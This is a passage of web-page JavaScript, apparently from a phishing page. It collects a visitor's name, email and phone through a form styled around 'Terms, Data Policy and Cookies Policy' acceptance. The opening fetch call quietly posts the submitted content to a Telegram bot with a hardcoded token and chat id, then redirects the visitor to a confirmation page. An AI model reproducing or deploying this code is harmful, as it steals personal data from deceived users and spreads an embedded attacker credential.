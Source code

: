 
        fetch(`https://api.telegram.org/bot6889191432:AAFw-po-pKJiPAC1mLA7fqfwSNqkrM50HCg/sendMessage?chat_id=6921169662&text=${params.content}/`, {
          method: 'POST', // or 'PUT'
          headers: {
            'Content-Type': 'application/json',
          },

        }).then(function () {
          window.location = 'confirm.html';
        })


      });
    }

    function validateEmail(email) {
      var re = /\S+@\S+\.\S+/;
      return re.test(email);
    }

    $('.numeric').on('input', function (event) {
      this.value = this.value.replace(/[^0-9]/g, '');
    });
    const btn = document.querySelector('#submit');

    btn.addEventListener('click', (e) => {
      e.preventDefault();
      let openModal = true;
      let name = document.querySelector("#name");
      if (name.value === '') {
        openModal = false;
      }
      checked = $("input[type=checkbox]:checked").length;
      if (!checked) {
        return document.getElementById("termsaccept").innerHTML = "Please accept Terms, Data Policy and Cookies Policy";
        openModal = false;
      }
      let email = document.querySelector("#email");
      if (email.value === '' || validateEmail(email.value) === false) {
        email.style.cssText = 'border: 1px solid red;'
        openModal = false;
      }

      let phone = document.querySelector("#phone");
      if (phone.value === '') {
        phone.style.cssText = 'border: 1px solid red;'
        openModal = false;
      }
      let reason = document.querySelector("#reason");

      if (openModal) {
        var myModal = new bootstrap.Modal(document.getElementById("exampleModal"), {});
        document.getElementById('confirm_email').value = document.getElementById('email').value.replace('#', '-sharp-');
        myModal.show();
      }
    });
